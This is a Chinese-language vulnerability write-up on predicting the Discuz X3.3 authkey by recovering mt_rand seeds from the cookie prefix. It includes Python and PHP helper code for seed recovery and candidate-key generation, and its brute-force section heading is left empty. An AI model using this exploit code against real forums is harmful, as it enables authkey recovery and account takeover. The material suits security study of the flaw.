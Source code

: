 [Discuz_X authkey安全性漏洞分析](https://lorexxar.cn/2017/08/31/dz-authkey/)

[Discuz X3.3 authkey生成算法的安全性漏洞和后台任意代码执行漏洞](https://www.seebug.org/vuldb/ssvid-96371)


之前分析了 php 随机数及 php_mt_seed 的使用。

    upload/install/index.php
    $authkey = substr(md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 6)), 8, 6).random(10);
    ...
    $_config['cookie']['cookiepre'] = random(4).'_';
    
    upload/install/include/install_function.php
    
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }

    可以看到是从 chars 中随机的。
    
> 通过已知的4位，算出random使用的种子，进而得到authkey后10位。那剩下的就需要搞定前6位，根据其生成算法，只好选择爆破的方式，由于数量太大，就一定要选择一个本地爆破的方式（即使用到authkey而且加密后的结果是已知的）。
* 于是根据 cookie_pre 可以得到后面几次生成的随机数结果。  
* 使用 php_mt_seed 得到一些种子。
* 使用这些种子，可以生成对应的 authkey 的后 10 位。
* 利用各组 authkey 与重置密码的 sign 进行比较，得出 authkey


# python 生成参数

    def get_seeds(self):
        chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz'
        index_list = []
        for c in self.cookie_pre:
            index_list.append(chars.index(c))
        print(f'cookie_pre 对应随机数结果为 {index_list}')
        # 4 个一组，共 10 组，忽略
        params = '0 ' * 4 * 10
        length = len(chars)
        for index in index_list:
            # 4 个一组，前 2 个给出输出结果的范围，后 2 个给传递给 mt_rand 的参数。
            params += f'{index} {index} 0 {length-1} '
        print(f'生成参数为 \n{params}')
# php 生成随机数
    <?php
    function random($length) {
        $hash = '';
        $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
        $max = strlen($chars) - 1;
        PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
        for ($i = 0; $i < $length; $i++) {
            $hash .= $chars[mt_rand(0, $max)];
        }
        return $hash;
    }

    $fp = fopen('seeds.txt', 'rb');
    $fp2 = fopen('authkey.txt', 'wb');
    while (!feof($fp)) {
        $line = fgets($fp);
        if (preg_match("/seed\s=\s.*?\s=\s(\d+)/", $line, $match)) {
            $seed = $match[1];
        } else {
            continue;
        }
        mt_srand($seed);
        $auth_key = random(10);
        fwrite($fp2, "seed=$seed,random auth key=$auth_key\n");
    }
    fclose($fp);
    fclose($fp2);
    echo '写入完成';
# python 爆破